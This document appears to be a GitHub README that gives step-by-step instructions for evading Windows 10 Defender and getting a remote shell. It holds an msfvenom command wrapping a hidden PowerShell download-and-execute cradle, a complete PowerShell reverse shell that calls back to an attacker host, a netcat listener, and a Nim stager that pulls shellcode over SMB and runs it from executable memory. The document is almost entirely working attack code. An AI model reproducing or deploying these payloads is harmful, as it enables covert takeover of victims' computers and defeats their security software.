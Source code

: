 
 Bypass the windows 10 defender using a stager and a powershell reverse shell.

Steps to reproduce :

### 1. Generating the shellcode :

Generate the shellcode :

```bash
msfvenom -p windows/x64/exec CMD="powershell.exe -w hidden -ep bypass -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAyADQANgAuADMANAAvAHAAdwBuAC4AcABzADEAIgApAA==" -f raw -o shellcode.bin
```

The base64 payload decodes to this :
```powershell
I E X ( N e w - O b j e c t   N e t . W e b C l i e n t ) . D o w n l o a d S t r i n g ( " h t t p : / / 1 9 2 . 1 6 8 . 2 4 6 . 3 4 / p w n . p s 1 " ) 
```

### 2.  Setting Up the server with a powershell reverse shell.

`pwn.ps1` contains a powershell reverse shell :

```powershell
do {
    Start-Sleep -Seconds 1

    try{
        $TCPClient = New-Object Net.Sockets.TCPClient('192.168.246.34', 443)
    } catch {}
} until ($TCPClient.Connected)

$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)

# Writes a string to C2
function WriteToStream ($String) {
    # Create buffer to be used for next network stream read. Size is determined by the TCP client recieve buffer (65536 by default)
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}

    # Write to C2
    $StreamWriter.Write($String + 'PWN> ')
    $StreamWriter.Flush()
}

# Initial output to C2. The function also creates the inital empty byte array buffer used below.
WriteToStream ''

# Loop that breaks if NetworkStream.Read throws an exception - will happen if connection is closed.
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    # Encode command, remove last byte/newline
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    
    # Execute command and save output (including errors thrown)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }

    # Write output to C2
    WriteToStream ($Output)
}
# Closes the StreamWriter and the underlying TCPClient
$StreamWriter.Close()

```

Serve the reverse shell with  python:

```python
python3 -m http.server 80
```

### 3. Setting up the listener :

```bash
nc -nvlp 443
```

### 4. loading the shellcode to the stager :

```python
import winim/lean

  

var filename = "\\\\192.168.246.34\\smb\\shellcode.bin" 

  

var file : File = open(filename, fmRead)

var filesize = file.getFileSize()

  

var shellcode = newSeq[byte](filesize)

  

discard file.readBytes(shellcode, 0, filesize)

  

type

buf* = LPVOID

  
  

var add = VirtualAlloc(nil, filesize, MEM_COMMIT, PAGE_EXECUTE_READWRITE)

copyMem(add, shellcode[0].addr, filesize)

let f = cast[proc(){.nimcall.}](add)

f()
```

### 5. Setting Up the smbserver with impacket :

```bash
/opt/homebrew/bin/smbserver.py smb <path to the shellcode file> -ts -debug -smb2support
```

### 6. Compiling the stager to an executable :

```python
nim c -d:release --opt:size --cpu:amd64 -d:mingw --app:gui stager.nim
```

### 7.Executing the stager on the target 

Execute the stager on the target to get the shell.
